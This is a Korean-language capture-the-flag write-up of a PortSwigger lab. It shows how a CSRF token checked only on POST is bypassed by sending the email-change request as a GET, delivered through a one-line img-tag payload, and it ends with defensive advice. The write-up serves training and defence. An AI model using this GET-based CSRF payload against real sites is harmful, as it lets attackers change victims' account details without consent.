


+++
date = '2026-06-23T12:00:00+09:00'
draft = false
title = '[Write-up] PortSwigger - CSRF where token validation depends on request method'
summary = "POST 요청에만 적용되는 CSRF 토큰 검증을 GET 메서드로 전환해 우회하고 img 태그 한 줄로 이메일을 변경하는 풀이"
toc = true
tags = ["CSRF", "CSRF Token", "HTTP Method", "PortSwigger", "Practitioner"]
url = '/write-up/portswigger/csrf/write-up-portswigger---csrf-where-token-validation-depends-on-request-method/'
+++

---

## 문제 분석

> **난이도**: `PRACTITIONER`  
> **Lab**: [CSRF where token validation depends on request method](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method)

> 

이메일 변경 기능에 CSRF 취약점이 존재한다. 애플리케이션이 CSRF 공격을 막으려 시도하지만 특정 유형의 요청에만 방어가 적용된다. 페이지를 여는 사람의 이메일을 변경하는 HTML을 Exploit Server에 올리면 문제가 해결된다. 실습 계정은 `wiener:peter`다.

### CSRF 진단

정상적으로 이메일을 변경하고 요청을 확인한다.

```http
POST /my-account/change-email HTTP/2
Host: <lab-id>.web-security-academy.net
Cookie: session=<session>
Content-Type: application/x-www-form-urlencoded

email=csrf%40csrf.com&csrf=<csrf-token>
```

`csrf` 파라미터가 포함되어 있고, 값을 임의로 바꾸면 요청이 거부된다.

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8

"Invalid CSRF token"
```

토큰 검증 자체는 동작한다. 문제에서 특정 유형의 요청만 막는다고 했으므로, 검증이 적용되는 범위를 메서드 기준으로 확인한다. 같은 엔드포인트에 `email` 파라미터를 쿼리 문자열로 붙여 `GET`으로 보내면 토큰 없이도 이메일이 변경된다.

```http
GET /my-account/change-email?email=csrf%40csrf.com HTTP/2
Host: <lab-id>.web-security-academy.net
Cookie: session=<session>
```

애플리케이션이 `POST` 핸들러에만 토큰 검증을 걸어 두고, 같은 처리를 수행하는 `GET` 경로에는 검증을 적용하지 않은 것이다. 세션 쿠키의 `SameSite`도 `None`이므로 교차 사이트 `GET` 요청에 쿠키가 실린다.

---

## 익스플로잇

`GET` 요청이 그대로 처리되므로 폼이나 스크립트도 필요 없다. 이미지 로드만으로 요청이 발생한다.

```html
.web-security-academy.net/my-account/change-email?email=csrf2@csrf.com">
```

브라우저가 이미지를 가져오려 시도하면서 해당 URL로 `GET` 요청을 보내고, 세션 쿠키가 함께 첨부된다. 응답이 이미지가 아니라 로드는 실패하지만 서버 측 처리는 이미 끝난 뒤다.

이 페이로드를 피해자에게 전달하면 문제가 해결된다.



---

## 정리

CSRF 토큰이 존재한다는 사실과 토큰 검증이 유효하다는 사실은 다르다. 이 랩에서 토큰은 정상적으로 생성되고 `POST` 요청에서는 정확히 검증되지만, 같은 행위를 수행하는 `GET` 경로가 검증 밖에 남아 있어 방어 전체가 무력화된다.

이런 구멍은 대체로 프레임워크가 메서드에 관대한 라우팅을 제공하는 데서 생긴다. 하나의 핸들러가 `GET`과 `POST`를 모두 받도록 열려 있는데 토큰 검증은 `POST` 분기에만 들어가는 식이다. 진단에서는 상태를 바꾸는 엔드포인트마다 `OPTIONS`로 허용 메서드를 확인하거나 메서드를 바꿔 보내면서, 검증이 행위 단위가 아니라 메서드 단위로 걸려 있지는 않은지 확인해야 한다.

특히 `GET`으로 상태 변경이 가능해지면 공격 난이도가 급격히 낮아진다. 폼 자동 제출이나 스크립트 없이 `img` 태그 한 줄로 공격이 성립하고, 스크립트를 제한하는 환경에서도 통한다. 방어 관점에서는 상태를 변경하는 요청을 `GET`으로 처리하지 않는 것, 그리고 토큰 검증을 메서드와 무관하게 행위 실행 직전에 일괄 적용하는 것이 원칙이다.
